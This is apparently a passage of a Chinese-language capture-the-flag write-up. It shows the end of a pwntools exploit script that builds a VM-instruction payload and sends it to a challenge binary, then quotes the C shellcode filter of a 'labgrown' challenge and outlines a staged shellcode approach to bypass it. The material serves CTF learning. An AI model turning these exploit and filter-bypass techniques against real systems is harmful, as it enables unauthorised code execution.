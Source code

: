 ```py
payload += load(0,5,0x64) + load(0,6,0x65) + add(5,2) + add(6,3) + store(1,2,32) + store(1,3,33) + store(1,4,34)+my_exit()
data  = p16(0x7fff) + p16(0xe725) + p16(0x3) + p16(0xfae7) +p16(0x232d) + p16(0x16) + p16(0x1) # todo 这些都需要是 0x7fff 然后把 offset 改大，否则会 sign extend 然后挂掉 到这里时 rdx 不对 checkout 一下

send_data = payload.ljust(0xc0,b'\x00')+data
# gdb.attach(p,'''
# b *$rebase(0x150c)
#            ''')
# pause()
p.send(p16(0x67)+send_data)
p.interactive()

```

## labgrown
shellcode 题，设了以下限制    
```c
void check_shellcode(char* buf, int len){
	unsigned char* uchar_ptr = (unsigned char*) buf;
	int err = 0;
	//check that after len everything else is a nop
	for(int i = len; i < BUF_LEN; i++){
		if(uchar_ptr[i] != (unsigned char)0x90){
			err = 1;
		}
	}
	// check odd even
	for(int i = 0; i < len-1; i++){
		if(((uchar_ptr[i] ^ uchar_ptr[i+1]) & 1) != 1){ // 所有 bytes 奇偶交替
			err = 1;
		}
	}
	// check xor constraint
	for(int i = 0; i < len-1; i++){
		if((uchar_ptr[i] ^ uchar_ptr[i+1]) > (unsigned char)0xC0){
			err = 1;
		}
	}
	for(int i = 0; i < len-2; i++){
		if((uchar_ptr[i] ^ uchar_ptr[i+2]) < (unsigned char) 0x20){
			err = 1;
		}
	}

	if(err){
		puts("You wouldn't cook on one of these... did you learn nothing from my chemistry class?");
		exit(1);
	}
	return;
}
```
这种情况感觉是分段写 shellcode，得先发一个满足 encoding 条件的 read shellcode_part2 assembly 过去    
